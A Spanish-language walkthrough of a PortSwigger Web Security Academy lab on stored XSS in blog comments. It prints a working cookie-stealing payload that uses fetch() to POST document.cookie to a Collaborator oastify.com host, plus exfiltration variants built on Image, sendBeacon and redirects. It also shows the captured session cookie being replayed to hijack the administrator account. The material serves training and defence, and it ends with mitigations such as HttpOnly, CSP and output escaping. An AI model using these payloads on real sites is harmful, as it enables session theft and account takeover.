




# PortSwigger Web Security Academy — Lab 37

# Exploiting cross-site scripting to steal cookies

**Categoría:** Cross-site scripting  
**Tipo de vulnerabilidad:** Stored XSS / XSS almacenado  
**Objetivo del laboratorio:** robar la cookie de sesión de la víctima mediante XSS almacenado y usarla para suplantar su identidad.  
**URL del laboratorio:** `https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies`

---

## 1. Enunciado del laboratorio

El laboratorio se llama:

> **Exploiting cross-site scripting to steal cookies**

En español:

> **Explotar un cross-site scripting para robar cookies**

El laboratorio contiene una vulnerabilidad de **cross-site scripting almacenado**, también llamado **stored XSS**, en la funcionalidad de comentarios del blog.

La aplicación tiene un blog con posts. En esos posts se pueden publicar comentarios. El comentario se guarda en el servidor y después se renderiza para cualquier usuario que visite el post.

El laboratorio también incluye un usuario víctima simulado. Ese usuario víctima visita los comentarios después de que se publican. Esto es clave porque nuestro payload no se va a ejecutar solo en nuestro navegador, sino también en el navegador de esa víctima.

Para resolver el laboratorio hay que hacer dos cosas:

1. Explotar el stored XSS para exfiltrar la cookie de sesión de la víctima.
2. Usar esa cookie robada para suplantar la sesión de la víctima.

El objetivo final no es simplemente ejecutar `alert(1)`. En este laboratorio el objetivo es demostrar impacto real: **robo de sesión**.

---

## 2. Imágenes usadas en este writeup

Todas las imágenes están incluidas dentro de la carpeta `images/` del ZIP.









---

## 3. Aviso importante de alcance

Este writeup documenta un laboratorio controlado de PortSwigger Web Security Academy. La técnica se explica para entender el impacto real de XSS y cómo defenderlo.

En un entorno real, robar cookies o suplantar sesiones sin autorización es ilegal y dañino. Aquí se trabaja dentro de un entorno diseñado explícitamente para practicar.

---

## 4. Idea principal del laboratorio

Hasta ahora, en laboratorios anteriores, muchos XSS se resolvían con algo como:

```html
<script>alert(1)</script>
```

Eso demuestra ejecución de JavaScript, pero no siempre muestra impacto real.

En este laboratorio damos un salto importante:

```text
XSS almacenado
   ↓
JavaScript se ejecuta en el navegador de la víctima
   ↓
El script lee document.cookie
   ↓
El script envía la cookie a un servidor controlado por nosotros
   ↓
Usamos esa cookie para hacer session hijacking
   ↓
Entramos como la víctima
```

La frase clave de este laboratorio es:

> **XSS no es solo ejecutar JavaScript: XSS es ejecutar JavaScript como otra persona.**

Eso cambia totalmente el impacto.

---

## 5. Qué significa stored XSS en este caso

Un **stored XSS** ocurre cuando la aplicación guarda una entrada maliciosa y la vuelve a mostrar posteriormente sin neutralizarla correctamente.

En este laboratorio, el punto vulnerable es la funcionalidad de comentarios.

El flujo normal sería:

1. Un usuario entra a un post.
2. Escribe un comentario normal.
3. El servidor guarda ese comentario en una base de datos.
4. Cuando alguien vuelve a visitar el post, el servidor recupera el comentario.
5. El comentario se renderiza en el HTML.

Si el comentario contiene HTML o JavaScript y la aplicación no lo filtra correctamente, el navegador lo interpreta como código.

Ejemplo conceptual:

```html
Comentario normal:
Hola, buen post.
```

El servidor podría renderizar:

```html
<p>Hola, buen post.</p>
```

Pero si el atacante publica:

```html
<script>alert(1)</script>
```

Y el servidor lo renderiza sin escapar:

```html
<p><script>alert(1)</script></p>
```

El navegador no lo ve como texto. Lo ve como una etiqueta real `<script>` y ejecuta el código.

---

## 6. Por qué este laboratorio es más serio que un `alert(1)`

Un `alert(1)` sirve para confirmar ejecución, pero no compromete nada por sí solo.

Aquí, en cambio, el JavaScript se usa para leer y enviar información sensible.

El dato sensible es la cookie de sesión.

La cookie de sesión normalmente identifica al usuario autenticado. Si el servidor recibe una petición con esa cookie, asume que la petición pertenece al usuario dueño de esa sesión.

Por eso, si robamos la cookie de un administrador y la reutilizamos en nuestras propias peticiones, el servidor puede tratarnos como si fuéramos ese administrador.

Esto se llama:

```text
Session hijacking
```

En español:

```text
Secuestro de sesión
```

---

## 7. Qué es una cookie de sesión

Una cookie es un pequeño dato que el servidor entrega al navegador y que el navegador reenvía automáticamente en siguientes peticiones al mismo sitio.

Ejemplo:

```http
Cookie: session=abc123xyz
```

En una aplicación web típica, el servidor usa esa cookie para saber quién eres.

Flujo normal:

```text
1. Usuario inicia sesión.
2. Servidor crea una sesión.
3. Servidor envía una cookie: session=valor_unico.
4. Navegador guarda esa cookie.
5. En cada petición posterior, el navegador envía Cookie: session=valor_unico.
6. El servidor busca esa sesión y reconoce al usuario.
```

Si la cookie pertenece al administrador, entonces esa cookie equivale a la identidad del administrador dentro de la aplicación.

Por eso el objetivo es robar:

```text
session=COOKIE_DEL_ADMIN
```

---

## 8. Qué es `document.cookie`

En JavaScript, `document.cookie` permite leer las cookies accesibles desde el JavaScript de la página.

Ejemplo:

```javascript
document.cookie
```

Podría devolver algo como:

```text
secret=tAsPnIFLdWEiWTqvg1DnN4twhGrJxHJE; session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

En este laboratorio, el valor importante es:

```text
session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

Ese valor permite suplantar la sesión.

### 8.1. Cuándo `document.cookie` no funcionaría

Si la cookie tuviera la flag `HttpOnly`, JavaScript no podría leerla.

Ejemplo de cookie más segura:

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

Con `HttpOnly`, aunque hubiera XSS, esto no devolvería la cookie de sesión:

```javascript
document.cookie
```

Esa es una defensa muy importante contra robo de cookies mediante XSS.

En este lab, la cookie de sesión sí es accesible por JavaScript, por eso el ataque funciona.

---

## 9. Qué es Burp Collaborator

Burp Collaborator es un servicio que actúa como servidor externo controlado por el tester.

En este laboratorio no podemos usar un servidor externo cualquiera porque PortSwigger limita las conexiones hacia terceros para evitar abuso.

Por eso el enunciado indica que hay que usar el servidor público por defecto de Burp Collaborator.

Burp Collaborator nos da un dominio único, por ejemplo:

```text
yvxm0ibgsf300t2pj6hmskkmjdp4dv1k.oastify.com
```

Ese dominio está bajo nuestro control desde Burp.

Si el navegador de la víctima hace una petición a ese dominio, Burp Collaborator la registra.

Lo que queremos conseguir es que el navegador de la víctima haga algo como:

```http
POST / HTTP/1.1
Host: yvxm0ibgsf300t2pj6hmskkmjdp4dv1k.oastify.com

session=COOKIE_DE_LA_VICTIMA
```

Luego, desde Burp, hacemos `Poll now` y vemos la interacción recibida.

---

## 10. Por qué usamos Burp Collaborator y no un servidor cualquiera

El propio enunciado lo explica:

> Para evitar que la plataforma Academy se utilice para atacar a terceros, el firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios.

Eso significa que si intentamos enviar la cookie a un dominio externo controlado por nosotros fuera del ecosistema permitido, la petición podría no salir o no contar para el laboratorio.

Burp Collaborator está permitido para este tipo de práctica.

En una auditoría real, el equivalente sería usar un endpoint controlado por el pentester y autorizado por el alcance de la prueba.

---

## 11. Payload principal del laboratorio

El payload usado en el comentario es:

```html
<script>
fetch('https://ID-UNICO.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

Sustituyendo el dominio de Collaborator por el real, quedaría conceptualmente así:

```html
<script>
fetch('https://yvxm0ibgsf300t2pj6hmskkmjdp4dv1k.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

---

## 12. Desglose del payload línea por línea

### 12.1. La etiqueta `<script>`

```html
<script>
...
</script>
```

Esta etiqueta indica al navegador que el contenido interno es JavaScript.

Si la aplicación guarda y renderiza esta etiqueta sin neutralizarla, el navegador la ejecutará.

En este laboratorio, la vulnerabilidad está precisamente en que el comentario se almacena y luego se renderiza permitiendo que ese script se ejecute.

---

### 12.2. La función `fetch()`

```javascript
fetch('https://ID-UNICO.oastify.com', {...})
```

`fetch()` es una API moderna del navegador para hacer peticiones HTTP desde JavaScript.

Aquí se usa para hacer una petición al dominio de Burp Collaborator.

El navegador de la víctima será quien haga esa petición.

Esto es crucial:

```text
No es el servidor vulnerable quien envía la cookie.
Es el navegador de la víctima quien ejecuta el script y envía la cookie.
```

---

### 12.3. `method: 'POST'`

```javascript
method: 'POST'
```

Indica que queremos enviar una petición HTTP POST.

Podríamos exfiltrar usando GET, por ejemplo:

```javascript
new Image().src = 'https://ID.oastify.com/?c=' + encodeURIComponent(document.cookie)
```

Pero POST tiene una ventaja: permite enviar el contenido en el cuerpo de la petición.

En Burp Collaborator veremos el cuerpo de la petición con la cookie.

---

### 12.4. `mode: 'no-cors'`

```javascript
mode: 'no-cors'
```

Esto suele confundir mucho.

CORS controla si JavaScript puede leer la respuesta de una petición cross-origin. Pero aquí no necesitamos leer la respuesta.

Solo necesitamos que el navegador envíe la petición.

Con `mode: 'no-cors'`, el navegador permite mandar la petición aunque la respuesta sea opaca para JavaScript.

La idea es:

```text
No necesito ver la respuesta del servidor Collaborator desde el navegador.
Solo necesito que la petición salga y llegue a Collaborator.
```

Por eso `no-cors` es útil para exfiltración simple.

---

### 12.5. `body: document.cookie`

```javascript
body: document.cookie
```

Esta es la parte que roba la cookie.

`document.cookie` lee las cookies accesibles desde JavaScript para el dominio actual.

El navegador de la víctima ejecuta:

```javascript
document.cookie
```

Y el resultado se envía como cuerpo de la petición POST.

Ejemplo recibido por Collaborator:

```text
secret=tAsPnIFLdWEiWTqvg1DnN4twhGrJxHJE; session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

---

## 13. Flujo completo del ataque

El flujo real es este:

```text
1. Atacante abre Burp Collaborator.
2. Atacante copia un dominio único de Collaborator.
3. Atacante publica un comentario con un script malicioso.
4. La aplicación guarda el comentario en la base de datos.
5. El usuario víctima visita el post.
6. El servidor recupera el comentario desde la base de datos.
7. El servidor renderiza el comentario dentro del HTML.
8. El navegador de la víctima recibe el HTML.
9. El navegador ejecuta el script almacenado.
10. El script lee document.cookie.
11. El script envía la cookie al dominio de Burp Collaborator.
12. Burp Collaborator registra la petición.
13. El atacante extrae la cookie de sesión.
14. El atacante reemplaza su cookie por la cookie robada.
15. El servidor lo trata como la víctima.
16. El laboratorio queda resuelto.
```

---

## 14. Qué ocurre en el servidor cuando se visita el post

Cuando alguien entra al post, el backend normalmente hace algo como:

```sql
SELECT author, email, website, comment
FROM comments
WHERE post_id = 8;
```

Este `SELECT` recupera los comentarios guardados.

El payload está guardado como comentario.

Después el servidor construye HTML con esos datos.

Ejemplo conceptual vulnerable:

```html
<div class="comment">
  <p>COMENTARIO_DEL_USUARIO</p>
</div>
```

Si `COMENTARIO_DEL_USUARIO` contiene:

```html
<script>fetch(...)</script>
```

Entonces el HTML final contiene el script.

El servidor no ejecuta el JavaScript.

El JavaScript se ejecuta en el navegador del visitante.

Esto es fundamental:

```text
Stored XSS = código guardado en el servidor, ejecutado en el cliente.
```

---

## 15. Por qué cada visitante ejecuta el ataque

Como el payload está almacenado, cada vez que alguien carga el post el servidor vuelve a incluirlo en el HTML.

Por eso el ataque no requiere que el atacante haga nada después de publicarlo.

Flujo repetido:

```text
Usuario A visita el post → ejecuta el payload
Usuario B visita el post → ejecuta el payload
Administrador visita el post → ejecuta el payload
```

En el laboratorio nos interesa el administrador/víctima simulado.

---

## 16. Diferencia entre reflected XSS y stored XSS aquí

### 16.1. Reflected XSS

En reflected XSS, el payload viaja en una petición concreta y vuelve en la respuesta.

Ejemplo:

```text
/search?q=<script>alert(1)</script>
```

No queda guardado.

Para explotar a una víctima normalmente habría que conseguir que visite esa URL.

### 16.2. Stored XSS

En stored XSS, el payload se guarda en el servidor.

Ejemplo:

```text
Comentario: <script>fetch(...)</script>
```

Después se ejecuta cada vez que se visualiza el comentario.

El atacante no necesita mandar un enlace específico a cada víctima si la víctima visita la zona donde está el contenido almacenado.

Por eso el stored XSS suele tener más impacto.

---

## 17. Por qué `SameSite` no evita este ataque

La protección `SameSite` de cookies está pensada principalmente para controlar cuándo el navegador envía cookies automáticamente en peticiones cross-site.

Pero aquí ocurre algo distinto.

El script se ejecuta en el origen legítimo del sitio vulnerable.

Y no estamos dependiendo de que el navegador envíe automáticamente la cookie al dominio externo.

Estamos leyendo la cookie con:

```javascript
document.cookie
```

Y luego enviando su valor manualmente en el cuerpo de una petición:

```javascript
body: document.cookie
```

Por eso `SameSite` no es la defensa principal contra este caso.

La defensa clave sería `HttpOnly`, además de evitar el XSS.

---

## 18. Por qué `HttpOnly` sí sería importante

Si la cookie de sesión tuviera `HttpOnly`, JavaScript no podría leerla.

Entonces este payload:

```javascript
document.cookie
```

No incluiría la cookie de sesión.

La petición podría seguir saliendo hacia Collaborator, pero no llevaría la cookie sensible.

Por tanto, `HttpOnly` reduce muchísimo el impacto de XSS orientado a robo de cookies.

Pero cuidado: XSS seguiría siendo grave incluso con `HttpOnly`, porque un atacante podría ejecutar acciones como la víctima desde su navegador.

Ejemplos de impacto con XSS aunque no puedas leer cookies:

```text
- Cambiar el email del usuario.
- Realizar acciones autenticadas.
- Leer información del DOM.
- Extraer CSRF tokens si están en la página.
- Hacer peticiones internas desde la sesión de la víctima.
```

---

## 19. Paso práctico 1: iniciar el laboratorio

Abrimos el laboratorio y se carga la página principal del blog.

URL del lab usado en la práctica:

```text
https://0aba0008040b0547810d20cf000a0047.web-security-academy.net/
```

La página se ve como en la imagen 1.


Observamos:

```text
- Título del lab: Exploiting cross-site scripting to steal cookies
- Estado inicial: Lab Not solved
- Blog con posts
- Navegación superior con Home y My account
```

El laboratorio incluye un blog. La vulnerabilidad está en los comentarios de los posts.

---

## 20. Paso práctico 2: abrir Burp Collaborator

Antes de publicar el comentario malicioso, abrimos Burp Suite Professional.

Dentro de Burp, usamos Burp Collaborator.

El objetivo es obtener un dominio único para recibir la cookie exfiltrada.

Ejemplo de dominio de Collaborator:

```text
yvxm0ibgsf300t2pj6hmskkmjdp4dv1k.oastify.com
```

En la práctica del usuario, Collaborator muestra interacciones con un dominio similar:

```text
wbbk9u24ur8dqyxwrhdidwr7tyzpnfb4.oastify.com
```

Esto es normal. Cada instancia puede generar un subdominio único distinto.

La idea es siempre la misma:

```text
ID-UNICO.oastify.com
```

Ese dominio es el receptor de la cookie.

---

## 21. Paso práctico 3: construir el comentario malicioso

El payload final que se deja como comentario es:

```html
<script>
fetch('https://wbbk9u24ur8dqyxwrhdidwr7tyzpnfb4.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

El dominio debe ser el que nos proporcione Collaborator en nuestra sesión.

No hay que usar literalmente el del ejemplo si en nuestra práctica Burp nos da otro.

La parte crítica es:

```javascript
body: document.cookie
```

Ahí viaja la cookie de la víctima.

---

## 22. Paso práctico 4: publicar el comentario

Entramos en un post del blog y bajamos hasta el formulario de comentarios.

En el campo del comentario introducimos el payload.

Conceptualmente:

```html
<script>
fetch('https://ID-UNICO.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

Los demás campos del formulario se pueden rellenar con datos normales.

Una vez enviado el comentario, el servidor lo almacena.

A partir de este momento, cuando la víctima simulado visite la página, su navegador ejecutará el script.

---

## 23. Paso práctico 5: esperar la interacción en Collaborator

Después de publicar el comentario, volvemos a Burp Collaborator y hacemos:

```text
Poll now
```

En la imagen 2 vemos que Collaborator recibe interacciones.


Aparecen varias interacciones, por ejemplo:

```text
DNS
DNS
HTTP
```

Esto suele ocurrir porque antes de enviar la petición HTTP el navegador o el entorno resuelve el dominio mediante DNS.

La interacción importante es la HTTP, porque contiene el cuerpo de la petición con las cookies.

---

## 24. Petición recibida en Burp Collaborator

La petición recibida tiene este aspecto:

```http
POST / HTTP/1.1
Host: wbbk9u24ur8dqyxwrhdidwr7tyzpnfb4.oastify.com
Connection: keep-alive
Content-Length: 81
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a5f00de0434d29280970dfc000f0044.web-security-academy.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://0a5f00de0434d29280970dfc000f0044.web-security-academy.net/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9

secret=tAsPnIFLdWEiWTqvg1DnN4twhGrJxHJE; session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

---

## 25. Interpretación de la petición recibida

### 25.1. Método POST

```http
POST / HTTP/1.1
```

Esto confirma que el `fetch()` se ejecutó con:

```javascript
method: 'POST'
```

---

### 25.2. Host de Collaborator

```http
Host: wbbk9u24ur8dqyxwrhdidwr7tyzpnfb4.oastify.com
```

La petición llegó a nuestro subdominio de Collaborator.

Esto confirma que la víctima ejecutó nuestro script y que el navegador hizo una conexión hacia nuestro servidor controlado.

---

### 25.3. User-Agent de la víctima

```http
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

Este encabezado muestra que la petición viene del navegador de la víctima simulada.

La palabra `(Victim)` es especialmente útil en los laboratorios de PortSwigger porque nos indica que la interacción no viene de nosotros sino del usuario simulado.

---

### 25.4. Origin

```http
Origin: https://0a5f00de0434d29280970dfc000f0044.web-security-academy.net
```

El origen es la web vulnerable.

Esto encaja con el ataque:

```text
El script se ejecuta dentro del origen vulnerable y desde ahí hace una petición cross-site a Collaborator.
```

---

### 25.5. Sec-Fetch-Site

```http
Sec-Fetch-Site: cross-site
```

Indica que la petición va a un sitio diferente al origen actual.

Origen actual:

```text
web-security-academy.net
```

Destino:

```text
oastify.com
```

---

### 25.6. Sec-Fetch-Mode

```http
Sec-Fetch-Mode: no-cors
```

Esto confirma que el navegador ha usado el modo configurado en el payload:

```javascript
mode: 'no-cors'
```

---

### 25.7. Cuerpo de la petición

El cuerpo de la petición es:

```text
secret=tAsPnIFLdWEiWTqvg1DnN4twhGrJxHJE; session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

Esto es el resultado de:

```javascript
document.cookie
```

Hay dos valores:

```text
secret=tAsPnIFLdWEiWTqvg1DnN4twhGrJxHJE
session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

La cookie que nos interesa para suplantar la sesión es:

```text
session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

---

## 26. Por qué el navegador envía una petición aunque sea cross-site

Esto es muy importante.

La política CORS no impide que se envíen todas las peticiones cross-site.

Lo que CORS controla principalmente es si el JavaScript puede leer la respuesta.

Aquí no nos interesa leer la respuesta de Collaborator desde el navegador de la víctima.

Solo queremos que el dato salga.

Por eso el flujo funciona:

```text
fetch cross-site con no-cors
   ↓
El navegador manda el POST
   ↓
JavaScript no puede leer la respuesta
   ↓
Da igual, Collaborator ya recibió la cookie
```

---

## 27. Paso práctico 6: extraer la cookie de sesión

De la petición recibida extraemos:

```text
session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

Esta es la cookie de sesión de la víctima.

En el laboratorio, esa víctima corresponde al usuario administrador.

---

## 28. Paso práctico 7: hacer session hijacking

Ahora necesitamos usar la cookie robada.

El objetivo es acceder a `/my-account` como la víctima.

Primero capturamos una petición normal a `My account` desde nuestro navegador.

La petición original puede tener nuestra propia cookie:

```http
GET /my-account HTTP/1.1
Host: 0a5f00de0434d29280970dfc000f0044.web-security-academy.net
Cookie: session=g6gYhEwIXZyiNN35WNVDvfWftidmwxac
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5f00de0434d29280970dfc000f0044.web-security-academy.net/post/comment/confirmation?postId=8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Modificamos el encabezado `Cookie` para usar la cookie robada:

```http
Cookie: session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

La petición final debería tener una sola cabecera `Cookie` válida con la sesión robada.

Muy importante: no conviene dejar dos cabeceras `Cookie` duplicadas. En HTTP, eso puede producir comportamientos ambiguos según servidor, proxy o framework.

Lo correcto es sustituir nuestra cookie por la robada, no añadir otra debajo.

Petición limpia recomendada:

```http
GET /my-account HTTP/1.1
Host: 0a5f00de0434d29280970dfc000f0044.web-security-academy.net
Cookie: session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: keep-alive
```

---

## 29. Qué ocurre cuando enviamos la petición con la cookie robada

El servidor recibe:

```http
Cookie: session=wiwNtesDciPz7EqBjy6xoc6HLCGkKwHz
```

Busca esa sesión en su almacenamiento interno.

Encuentra que esa sesión corresponde al usuario administrador.

Entonces responde con el panel de cuenta del administrador.

La respuesta devuelve `HTTP/2 200 OK` y al renderizarla vemos que estamos autenticados como:

```text
administrator
```

Esto se ve en la imagen 3.


---

## 30. Paso práctico 8: laboratorio resuelto

Una vez accedemos con la cookie de la víctima, el laboratorio se marca como resuelto.


El estado cambia a:

```text
LAB Solved
```

---

## 31. Qué demuestra exactamente este laboratorio

Este laboratorio demuestra una cadena de ataque completa:

```text
Stored XSS → Cookie theft → Session hijacking → Account takeover
```

No es solo una vulnerabilidad aislada.

Es una cadena de impacto:

1. La aplicación permite almacenar JavaScript.
2. Ese JavaScript se ejecuta en víctimas reales.
3. El JavaScript puede leer cookies porque no están protegidas con `HttpOnly`.
4. El JavaScript puede exfiltrar datos mediante peticiones cross-site.
5. El atacante puede reutilizar la cookie para autenticarse.

---

## 32. Por qué el usuario víctima simulado es fundamental

Si solo ejecutáramos el payload en nuestro navegador, robaríamos nuestra propia cookie.

Eso no resolvería el objetivo real del laboratorio.

El usuario víctima simulado visita los comentarios después de publicarlos.

Ese comportamiento simula un caso real como:

```text
- Un administrador revisa comentarios.
- Un moderador revisa publicaciones.
- Un usuario lee un hilo público.
- Un agente de soporte abre tickets enviados por usuarios.
```

Si la aplicación permite stored XSS en ese contenido, el navegador del usuario privilegiado puede quedar comprometido.

---

## 33. Por qué la solución alternativa es menos sutil

El enunciado menciona que hay una solución alternativa que no requiere Burp Collaborator, pero es menos sutil.

Una alternativa típica en labs de XSS es hacer que el script publique la cookie en la propia aplicación, por ejemplo como un comentario visible.

Eso puede funcionar, pero es ruidoso:

```text
- Deja la cookie expuesta públicamente.
- Modifica contenido visible.
- Es más fácil de detectar.
- No representa una exfiltración silenciosa.
```

Usar Collaborator es más realista porque simula enviar el dato a una infraestructura controlada por el atacante sin mostrarlo en la propia web.

---

## 34. Variantes del payload

### 34.1. Variante con `fetch()` usando POST

La variante usada:

```html
<script>
fetch('https://ID.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

Ventajas:

```text
- El dato viaja en el cuerpo.
- Fácil de leer en Collaborator.
- No depende de cargar una imagen.
```

---

### 34.2. Variante con `new Image()`

Otra forma común de exfiltrar datos es crear una imagen:

```html
<script>
new Image().src = 'https://ID.oastify.com/?c=' + encodeURIComponent(document.cookie);
</script>
```

El navegador intenta cargar una imagen desde esa URL.

La cookie viaja en el parámetro `c`.

Ejemplo de petición:

```http
GET /?c=session%3Dabc123 HTTP/1.1
Host: ID.oastify.com
```

Ventajas:

```text
- Muy simple.
- No requiere leer respuesta.
- Históricamente muy usado.
```

Desventajas:

```text
- Puede tener límites de longitud de URL.
- La cookie queda en la URL.
- Puede ser más visible en logs.
```

---

### 34.3. Variante con `navigator.sendBeacon()`

Otra opción moderna:

```html
<script>
navigator.sendBeacon('https://ID.oastify.com', document.cookie);
</script>
```

`sendBeacon()` está pensado para enviar datos de forma asíncrona, normalmente analíticas.

Puede ser útil porque está diseñado para enviar datos incluso durante descargas o cierres de página.

No siempre es necesario en este lab, pero conceptualmente sirve para el mismo objetivo.

---

### 34.4. Variante con path en la URL

Otra variante sería:

```html
<script>
location = 'https://ID.oastify.com/' + encodeURIComponent(document.cookie);
</script>
```

Esto redirige el navegador de la víctima al dominio externo.

Desventaja clara:

```text
Es muy visible porque cambia la página de la víctima.
```

Por eso no es tan sutil como `fetch()`.

---

## 35. Por qué `fetch()` no necesita cookies del sitio vulnerable hacia Collaborator

Una confusión común es pensar que el navegador va a mandar automáticamente la cookie del sitio vulnerable al dominio de Collaborator.

No ocurre eso.

Las cookies tienen ámbito de dominio.

La cookie del laboratorio pertenece a:

```text
web-security-academy.net
```

No se enviaría automáticamente a:

```text
oastify.com
```

Lo que hacemos es distinto:

```javascript
body: document.cookie
```

Leemos la cookie como texto y la metemos manualmente en el cuerpo de la petición.

Por eso Collaborator la recibe.

---

## 36. Qué pasaría si la cookie fuera `HttpOnly`

Si la cookie fuera `HttpOnly`, el navegador seguiría teniendo la cookie y la enviaría al sitio vulnerable en peticiones legítimas.

Pero JavaScript no podría leerla.

Entonces:

```javascript
document.cookie
```

no contendría `session=...`.

En ese escenario, este payload no podría robar directamente la cookie de sesión.

Pero XSS seguiría permitiendo otros ataques como enviar peticiones autenticadas desde el navegador de la víctima.

---

## 37. Qué pasaría si hubiera CSP

Una Content Security Policy fuerte podría bloquear varios componentes del ataque.

Ejemplos:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Eso podría bloquear scripts inline.

Otra directiva importante:

```http
connect-src 'self'
```

Eso podría bloquear `fetch()` hacia dominios externos como `oastify.com`.

Una CSP bien diseñada no arregla la vulnerabilidad de raíz, pero reduce el impacto.

La raíz sigue siendo que la aplicación renderiza contenido no confiable como HTML/JS ejecutable.

---

## 38. Qué debería hacer una aplicación para defenderse

### 38.1. Escapar correctamente el contenido de comentarios

Si un comentario se muestra como texto, debe insertarse como texto, no como HTML.

Ejemplo seguro en frontend:

```javascript
element.textContent = userComment;
```

No:

```javascript
element.innerHTML = userComment;
```

